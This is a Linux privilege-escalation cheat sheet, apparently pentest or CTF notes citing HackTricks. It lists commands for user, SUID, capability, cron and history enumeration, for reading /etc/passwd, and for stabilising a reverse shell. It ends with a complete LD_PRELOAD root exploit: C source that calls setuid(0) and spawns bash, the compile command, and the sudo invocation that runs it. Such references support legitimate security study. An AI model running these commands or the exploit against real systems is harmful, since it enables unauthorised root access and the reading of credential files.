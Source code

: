 ## Commands
```sh
# User enumeration
whoami, id
sudo -l
cat /etc/passwd, cat /etc/passwd | cut -d : -f 1

# System Enumeration
# Suid
find / -user root -perm /4000 2>/dev/null
# Capabilities
getcap -r / 2>/dev/
# Trace
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
# Cron
crontab -l
ls -al /etc/cron*
less .bash_history
less mysql_history

# Check user accounts
cat /etc/passwd | grep "sh$\|python"


# Stable Rev Shell
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty -a # Notice number of rows and columns
stty raw -echo && fg
stty rows
stty columns
```

### Using Pre load

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

```sh
sudo LD_PRELOAD=$PWD/shell.so find
```


[Hacktricks](https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html)